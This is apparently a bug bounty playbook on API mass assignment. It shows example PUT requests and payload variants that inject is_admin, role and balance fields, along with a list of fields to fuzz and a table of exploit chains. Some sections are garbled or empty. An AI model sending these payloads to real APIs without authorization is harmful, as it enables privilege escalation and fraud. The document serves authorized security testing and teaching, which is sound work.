

# API Mass Assignment Exploitation

## When to Use
- When testing APIs (REST, GraphQL) that directly bind client input (e.g., JSON payloads) to backend database models without proper whitelisting or DTO (Data Transfer Object) separation.
- To discover if hidden, internal, or administrative fields can be updated by an unprivileged user.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Object Inspection

```http
# Concept: Analyze the API response for an unprivileged user GET /api/v1/users/me HTTP/1.1
Host: api.target.app
Authorization: Bearer <token>

# Response {
  "id": 123,
  "username": "tester",
  "email": "tester@example.com",
  "is_admin": false,
  "balance": 0.00
}
```

### Phase 2: Injecting Hidden Fields in PUT/POST Requests

```http
# PUT /api/v1/users/me HTTP/1.1
Host: api.target.app
Content-Type: application/json
Authorization: Bearer <token>

{
  "username": "tester2",
  "is_admin": true,
  "balance": 9999.00
}
```

### Phase 3: Bypassing Filters using Payload Variations

```json
// { "username": "tester", "isAdmin": "true" }
{ "username": "tester", "user": { "is_admin": true } }
{ "username": "tester", "role": "admin" }
```

### Phase 4: Fuzzing for Hidden Fields

If the response doesn't leak internal field names, fuzz using common patterns.
```text
# is_admin, isAdmin, role, roles, permissions, privs, status, verified, account_type, credit
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Inspect Response Object ] --> B{Sensitive Fields Found? ]}
    B -->|Yes| C[Re-inject in POST/PUT ]
    B -->|No| D[Fuzz Common Hidden Fields ]
    C --> E[Verify Update/PrivEsc ]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Strict Data Transfer Objects (DTOs)**: **Explicit Whitelisting**: **API Schema Validation**: Key Concepts
| Concept | Description |
|---------|-------------|
| Mass Assignment / Over-posting | |
| Object-Relational Mapping (ORM) Risk | |


## Output Format
```
Mass Assignment Exploitation — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Industry Bounty Payout Statistics (2024-2025)

| Company/Platform | Total Paid | Highest Single | Year |
|-----------------|------------|---------------|------|
| **Google VRP** | $17.1M | $250,000 (CVE-2025-4609 Chrome sandbox escape) | 2025 |
| **Microsoft** | $16.6M | (Not disclosed) | 2024 |
| **Google VRP** | $11.8M | $100,115 (Chrome MiraclePtr Bypass) | 2024 |
| **HackerOne (all programs)** | $81M | $100,050 (crypto firm) | 2025 |
| **Meta/Facebook** | $2.3M | up to $300K (mobile code execution) | 2024 |
| **Crypto.com (HackerOne)** | $2M program | $2M max | 2024 |
| **1Password (Bugcrowd)** | $1M max | $1M (highest Bugcrowd ever) | 2024 |
| **Samsung** | $1M max | $1M (critical mobile flaws) | 2025 |

**Key Takeaway**: Google alone paid $17.1M in 2025 — a 40% increase YoY. Microsoft paid $16.6M.
The industry is paying more, not less. Average critical bounty on HackerOne: $3,700 (2023).

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP API Security Risk: [API6:2019 Mass Assignment](https://owasp.org/API-Security/editions/2019/en/0x11-mass-assignment/)
- PortSwigger: [Mass Assignment](https://portswigger.net/web-security/api-testing/mass-assignment)
